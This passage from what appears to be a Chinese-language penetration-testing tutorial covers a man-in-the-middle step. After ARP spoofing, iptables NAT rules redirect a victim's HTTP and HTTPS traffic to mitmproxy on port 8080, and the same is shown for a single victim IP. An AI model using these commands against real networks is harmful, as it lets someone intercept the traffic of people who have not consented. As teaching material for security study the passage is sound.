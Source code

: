 mitmproxy 会默认将 8080 端口作为 http/https 流量的监听端口

## 重定向 HTTP/HTTPS 流量

工具已经准备完成，下一步是将受害者发往 80 端口和 443 端口（或发往其他端口的 https 流量）的流量重定向至攻击者的 8080 端口

### 重定向 arp 欺骗后流量

如果前期**完成了 arp 欺骗**，劫持了受害者的所有流量，则直接通过防火墙修改本机的流量转发规则即可

```plain
# 将 eth0 网卡的所有访问 80 和 443 流量转发至 8080 端口
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

# 只转发指定 IP 的流量
iptables -t nat -A PREROUTING -s 192.168.243.128 -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A PREROUTING -s 192.168.243.128 -p tcp --dport 443 -j REDIRECT --to-ports 8080
```

重定向后，受害者访问流量即可被我们抓获

[![](assets/1701606977-c70c2851bdc875be0169712d8d04def6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200220-0c4165cc-5a09-1.png)
